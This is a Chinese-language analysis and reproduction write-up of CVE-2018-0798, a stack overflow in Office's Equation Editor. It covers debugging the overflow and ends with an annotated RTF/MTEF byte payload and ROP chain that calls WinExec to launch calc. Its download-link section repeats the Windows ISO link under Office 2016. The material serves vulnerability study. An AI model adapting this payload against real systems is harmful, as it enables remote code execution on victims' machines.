# CVE-2018-0798

## 测试环境

|            | 推荐环境  | 版本           |
| ---------- | --------- | -------------- |
| 操作系统   | Windows 7 | Service Pack 1 |
| 漏洞软件   | Office    | 2016           |
| 虚拟机     | VMware    | 16.2.3         |
| 调试器     | OllyDBG   | 2.0.1-32位     |
| 反汇编工具 | IDA Pro   | 6.8            |

影响范围：
office 2007
office 2010
office 2013
office 2016

## 环境搭建

https://msdn.itellyou.cn/

Windows 7 sp 1

```
ed2k://|file|cn_windows_7_ultimate_with_sp1_x64_dvd_u_677408.iso|3420557312|B58548681854236C7939003B583A8078|/
```

Office 2016

```
ed2k://|file|cn_windows_7_ultimate_with_sp1_x64_dvd_u_677408.iso|3420557312|B58548681854236C7939003B583A8078|/
```

## 漏洞复现

打开POC.rtf

弹出计算器



## 漏洞分析

先用Process Monitor中的Process Tree工具查看一下是那个组件触发的



找到了，是EQNEDT32.EXE组件，我们的方法和CVE-2017-11882类似，利用注册表或者gflags工具去设置DEBUG，只要EQNEDT32.EXE进程被创建就会立即被指定的调试器挂住。

直接去修改HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\EQNEDT32.EXE里的Debugger也是一个效果



点击poc.rtf，忽略异常，再WinExec，CreateProcess等api处进行断点，程序运行到WinExec处被我们设置的断点拦下



我们去查看调用堆栈，但是没有发现其他复现文章中触发漏洞的函数



-----------------------------------

通过其他复现文章的得知漏洞位于sub_443E34内，其中v10和v11我们可以控制，v6，v7是栈上的int型的数组，每个元素为4字节。



sub_443E34函数调用了两次sub_443F6C，该函数在复制数据到栈上时，没有对v4的长度进行校验，只有当v3=0时才会停止复制。v4  = (2 * a1 + 9) >> 3; a1我们可以控制，就可以控制复制长度的大小，就可以伪造长度造成sub_443E34函数栈溢出，覆盖掉eip，执行控制流。



我们再来动调康康，再sub_443E34函数调用sub_443F6C函数的地方下断点，第一次传入的长度为v10 = a1 = 0x1c，v4  = (2 * a1 + 9) >> 3 = 8



进入第一个sub_443F6C函数，可以看到它将"cmd.exe "放到了栈中



再来看看第二个sub_443F6C函数，传入的长度为94，v11 = a1 = 0x94，v4  = (2 * a1 + 9) >> 3 = 34



此时我们把数据复制到栈中，从0x18f474到sub_443E34函数的栈底仅有16个字节的距离，而我们复制的数据量有34个字节，这就引起了栈溢出，我们就能够控制eip去执行我们想执行的操作。



可以看到我们已经成功将sub_443E34函数的返回地址给控制了，把ebp覆盖成了0x19（后面解释），返回地址改成了0x44C73A，去执行我们构造的恶意代码。



回到sub_443E34函数中，函数经过了0x4428f0，将栈中的数据拷贝到了别的地方



该地址+0x32就是我们需要执行的指令，我们将ebp覆盖成0x19再执行两次add eax,ebp ebp;[(0x19*2=0x32)]，再把它入栈作为传入winexec的变量就好了


此时我们来看调用堆栈，再第二次调用sub_443F6C函数时，此时的堆栈还是正确的返回地址



执行完第二次sub_443F6C函数的调用后



sub_443E34函数ret之前



--------------------------------------------------





---------------------------------------------------------





-----------------------------------------------------




## 漏洞利用

利用010打开rtf样本，可以看到利用方法	



```
03 01 01 03 0A // MTEF头部

0A // 初始SIZE

09 // tag

64 // 0n100

22 // lsize

1c // dsize-high-byte

4c // dsize-low-byte

44 // 确保进入case 4

66 // 填充用，随意

77 // 填充用，随意

09 // 填充用，随意

05 // 填充用，随意

AA // 填充用，随意

55 // 确保进入第2个case 4

10 // sub_443e34内读入的第1个字节

11 // sub_443e34内读入的第2个字节

12 // sub_443e34内读入的第3个字节

1c // 等待计算以决定拷贝大小的长度1

4c // 等待计算以决定拷贝大小的长度2

63 6d 64 2e 65 78 65 20 // 第一次拷贝的8个字节

2f 63 63 61 6c 63 00 44 44 44 44 44

19 00 00 00 // ebp

3a c7 44 00 // ret_addr: add esp, 4; ret

28 5b 45 00 // a read_write addr

b6 0e 41 00 // add eax, ebp; ret 2

b6 0e 41 00 // add eax, ebp; ret 2

00 00       // pad for adjust stack by 2 bytes

4b ed 40 00 // push eax; call sub_30C00(which call WinExec)

00 00       // pad for align by 4 bytes

00 00 00 00 // 保证执行流顺利到达ret(这里加了4个00，加1个即可)
```

